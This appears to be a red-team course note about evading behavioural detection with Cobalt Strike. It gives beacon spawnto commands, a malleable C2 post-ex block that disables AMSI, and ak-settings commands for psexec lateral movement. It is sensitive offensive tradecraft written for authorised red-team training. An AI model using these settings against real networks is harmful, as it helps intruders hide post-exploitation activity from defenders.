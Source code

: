 
#### 🖊️ behavioral evasion using Cobalt Strike

1) The process used for post-ex commands and psexec can be changed on the fly in the CS GUI.  To change the post-ex process, use the `spawnto` command.  x86 and x64 must be specified individually and environment variables can also be used.

```
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
```
  ⚠ The sysnative and syswow64 paths should be used rather than system32.

2) Tools like [[Powerpick]] and [[Powerview]] should run now without being caught by AMSI
3) You may also set the spawnto inside malleable C2 by including the `spawnto_x64` and `spawnto_x86` directives inside the post-ex block.  Every new Beacon will then use this as their new default.

```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

4) When moving laterally with psexec, Beacon will attempt to use the spawnto setting from your malleable C2 profile.  However, it cannot use environment variables (such as `%windir%`), so will fall back to rundll32 in those cases.  You can override this at runtime with the `ak-settings [name] [full path]` command to specify an absolute path instead.

```
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe

[*] Updating the spawnto_x64 process to 'C:\Windows\System32\dllhost.exe'
[*] artifact kit settings:
[*]    service     = ''
[*]    spawnto_x86 = 'C:\Windows\SysWOW64\rundll32.exe'
[*]    spawnto_x64 = 'C:\Windows\System32\dllhost.exe'

beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

[*] Updating the spawnto_x86 process to 'C:\Windows\SysWOW64\dllhost.exe'
[*] artifact kit settings:
[*]    service     = ''
[*]    spawnto_x86 = 'C:\Windows\SysWOW64\dllhost.exe'
[*]    spawnto_x64 = 'C:\Windows\System32\dllhost.exe'
```


#### ⚠ Opsec




### Properties
---
📆 created   {{29-02-2024}} 10:48
🏷️ tags: #redteam #crto 

---

